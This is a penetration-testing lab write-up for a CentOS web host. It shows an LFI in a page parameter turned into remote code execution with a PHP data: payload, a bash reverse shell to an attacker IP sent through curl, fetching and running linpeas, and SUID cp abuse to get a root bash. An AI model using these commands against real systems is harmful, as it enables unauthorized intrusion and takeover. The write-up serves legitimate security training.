









## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt 10.11.1.35
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 45:4a:21:25:8c:04:dc:c8:48:76:0c:52:77:14:6c:73 (RSA)
|   256 a0:b8:2d:0f:07:79:36:47:ac:9f:bf:53:9b:0f:87:eb (ECDSA)
|_  256 ee:06:c5:14:bc:2f:ae:9e:1e:0b:88:cd:3f:12:e0:6d (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

### Website

Website on port `80`.

  

If we open one of the links there's a `page` parameter.

  

## Shell as apache

The parameter is vulnerable to LFI. We can test this using `/etc/passwd`.

  

We can use the following payload to get RCE via LFI.

```bash
data:text/plain,<?php echo shell_exec("id") ?>
```

  

We can create a reverse shell payload and URL encode it. 

```bash
bash -i >& /dev/tcp/192.168.119.194/9001 0>&1
%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.194%2F9001%200%3E%261%22
```

Start our `netcat` reverse listener.

```bash
rlwrap nc -lnvp 9001
```

We can now execute it using `curl`.

```bash
curl http://10.11.1.35/section.php?page=data:text/plain,%3C?php%20echo%20shell_exec(%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.194%2F9001%200%3E%261%22)%20?%3E
```

We get our shell.

  

Let's upgrade our shell.

```bash
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
```

## Privilege Escalation

### Enumeration

We'll start by uploading `linpeas` to the target.

```bash
cp /usr/share/linux-resources/linpeas.sh ./
python3 -m http.server 80
```

We can now enumerate the system using `linpeas`.

```bash
curl http://192.168.119.194/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.out
```

  

### SUID

After looking through the `linpeas` output we can see that `cp` is an SUID binary.

  

First make a copy of `bash`.

```bash
cp /bin/bash ./
```

Then we can use the `cp` SUID to give SUID to `bash`.

```bash
cp --attributes-only --preserve=all /usr/bin/cp ./bash
./bash -p
```

  

### Proof

```bash
cat proof.txt && ip a
```

  

```text
99d8f4f10cf80eed5cb67e73e8b60a3d
```